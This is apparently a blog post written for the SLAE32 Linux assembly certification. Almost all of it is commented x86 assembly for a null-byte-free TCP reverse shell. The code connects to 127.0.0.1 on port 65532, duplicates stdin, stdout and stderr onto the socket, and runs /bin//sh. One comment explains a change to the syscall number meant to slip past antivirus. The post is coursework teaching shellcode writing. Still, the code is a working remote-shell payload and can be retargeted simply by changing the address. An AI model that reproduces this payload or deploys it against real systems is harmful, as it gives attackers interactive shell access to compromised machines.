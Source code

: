 ```yaml
---
layout: post
title: "SLAE32 Assignment 2 extramile - revshell to 127.0.0.1"
excerpt: "a little extramile for assignment 2: i'm using a remote address that contain null bytes"
---
```

    ; name       : tcprevshell
    ; author     : Sandro "guly" Zaccarini SLAE-1037
    ; purpose    : the program will create a new connection to given ip/port and present
    ;              a shell to it.
    ;              as extramile, i'm using an address with known nullbytes: 127.0.0.1
    ;              this code has been written for SLAE32 assignment 2
    ; references : https://syscalls.kernelgrok.com/ , /usr/include/linux/net.h ,
    ;              man socketcall
    ; license    : CC-BY-NC-SA
    ;
    ; high level flow:
    ; socket -> connect -> dup fd -> spawn /bin//sh
    ;
    ; i'll use different function name to keep it more readable. mostly, function are
    ; never called and are used just as "anchor for the human eyes"
    
    global _start
    
    section .text
    
    ; dummy function used to break easily on gdb while debugging, just rets 
    ; i used to place a call trap and recompile, while having a "b trap" on ~/.gdbinit
    trap:
    ret
    
    zero:
    ; zero eax and ebx by xoring against themself
    xor eax,eax
    xor ebx,ebx
    ret
    
    socketcall2eax:
    ; syscall code for socketcall in eax, which is 0x66, no need to zero because of mov
    ; i'm using add to avoid hardcoded 0x66 call, which could be trapped by some AV, when
    ; 0x33 is the call acct and looks harmless to me
    mov al,0x33
    add al,0x33
    ret
    
    ; main code starts here
    _start:
    ; start by zeroing eax,ebx. not really needed because registers are clean, but better
    ; safe than sorry
    call zero
    
    createsocket:
    ; -----------------------------------------------------------------------------------
    ; purpose     : create a socket
    ; references  : man socket
    ; description :
    ; socketcall is the syscall used to work with socket. i'm going to use this to create
    ; and connect
    ; the first thing i do is to create the socket itself. by reading references, i see
    ; that she needs 3 registers:
    ; eax => syscall id 0x66 for socketcall, that will be the same for every socketcall
    ;        call of course and that's why i created a function on top
    ; ebx => socket call id, that is 0x1 for socket creation
    ; ecx => pointer to socket args
    ;
    ; man socket shows me that socket's args are:
    ; domain   => AF_INET because i'm creating a inet socket, and is 0x2
    ; type     => tcp is referenced as STREAM, that is 0x1
    ; protocol => unneded here because there is no inner protocol, so i'll use 0x0
    
    ; not, i'm creating ecx because a zeroed eax is perfect for the purpose
    ; arg will be pushed in reverse order with no hardcoded address: 0, 1, 2
    push eax
    inc eax
    push eax
    inc eax
    push eax
    
    ; because socketcall needs a pointer, i'm moving esp address to ecx
    mov ecx,esp
    
    ; prepare eax to hold the socketcall value as discussed before
    call socketcall2eax
    
    ; because ebx is 0, i can just inc to have it to 1 for socketcall to call socket
    ; (pun intended :) )
    inc ebx
    
    ; do the call and create socket
    int 0x80
    
    ; because syscall rets to eax, if everything's good, eax will hold socket fd: save it
    ; to esi to have it safe for the whole run
    mov esi,eax
    
    connect:
    ; -----------------------------------------------------------------------------------
    ; purpose     : connect to raddr:rport
    ; references  : man connect , man 7 ip
    ; description :
    ; eax => syscall id 0x66 for socketcall
    ; ebx => connect call id, 0x3 taken from linux/net.h
    ; ecx => pointer to address struct
    ;
    ; man connect shows me that args are:
    ; sockfd  => already saved in esi
    ; address => pointer to ip struct
    ; addrlen => addrlen is 32bit (0x10)
    ;
    ; man 7 ip shows address struct details. arguments are:
    ; family => AF_INET, so 0x2
    ; port   => held by rport from .data
    ; addr   => 127.0.0.1
    
    ; again, better safe than sorry
    call zero
    
    ; push arg in reverse and move the pointer to ecx
    ; prepare stack pointer to addr struct defined in man 7 ip
    ; as exercise i use 127.0.0.1 as remote address, because it contains null bytes
    ; hex value of 127.0.0.1 is 0x0100007f
    ; pushing 0x00000000 to esp by using a known null register. i've also could used
    ; sub esp,0x8 because i have enough room
    push eax
    mov byte [esp], 0x7f
    ; now esp is: 0x0000007f
    mov byte [esp+3],0x01
    ; now esp is: 0x0100007f
    
    ; push port to bind to, defined in .data. pushed as word.
    push word rport
    ; push AF_INET value as word again
    push word 0x2
    ; get stack pointer to ecx
    mov ecx,esp
    
    ; push arg, again in reverse order
    ; addrlen is fixed to 16, or 0x10
    push byte 0x10
    ; pointer to addr struct
    push ecx
    ; sockfd, saved before to esi
    push esi
    ; stack pointer to ecx again, to feed bind socketcall
    mov ecx,esp
    
    ; ebx has been zeroed, mov 0x3 to him
    mov bl,0x3
    
    ; same call to have 0x66 to eax and do socketcall
    call socketcall2eax
    
    ; do the call
    int 0x80
    
    dupfd:
    ; -----------------------------------------------------------------------------------
    ; purpose     : create fd used by /bin//sh
    ; references  : man dup2
    ; description : every shell has three file descriptor: STDIN(0), STDOUT(1), STDERR(2)
    ; this code will create said fd
    ; eax => 0x3f got from kernelgrok website
    ; ebx => clientid
    ; ecx => newfd id, said file descriptor
    ;
    ; i'm going to create them by looping using ecx, to save some instruction. ecx will
    ; start at 2, then is dec and fd is created.
    ; as soon as ecx is 0, the loop ends
    
    
    ; i'm using a different method from one i've used for bindshell just to try.
    ; i'll put 0x3 to ecx to start creating STDERR just after dec
    ; ecx is dirty but edx is 0x0, just swap them
    xchg ecx,edx
    mov cl,0x3
    
    ; copy socket fd to ebx to feed clientid
    mov ebx,esi
    
    ; zero eax and start the loop
    xor eax,eax
    dup2:
    ; dup2 call id
    mov al,0x3f
    
    ; dec ecx to have 2,1,0
    dec ecx
    int 0x80
    ; loop until ecx is 0x0, we then have 3 runs: with 2, 1, 0 values
    jnz dup2
    
    spawnshell:
    ; -----------------------------------------------------------------------------------
    ; purpose     : spawn /bin//sh
    ; references  : man execve
    ; description : put /bin//sh on the stack, aligned to 8 bytes to prevent 0x00 in the
    ;               shellcode itself and null terminating it by pushing zero
    ; eax => execve call, 0xB
    ; ebx => pointer to executed string, which will be /bin//sh null terminated
    ; ecx => pointer to args to executed command, that could be 0x0
    ; edx => pointer to environment, which could be 0x0
    ;
    ; i need to push a null byte to terminate the string, easiest way is to zero a reg
    ; and push it but i know ecx is 0x0 so i can save one op
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    ; here the stack will looks like a null terminated /bin/sh:
    ; /bin//sh\0\0\0\0\0\0\0\0
    
    ; and place pointer to ebx
    mov ebx,esp
    
    ; envp to edx and ecx
    push ecx
    mov edx,esp
    push ecx
    mov ecx,esp
    
    ; execve syscall here
    mov al,0xB
    
    ; and pop shell
    int 0x80
    
     _end:
    ; neat exit
    xor eax,eax
    mov al,0x1
    int 0x80
    
    section .data
    ; 65532 converted in hex, then little endian
    rport equ 0xFCFF

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
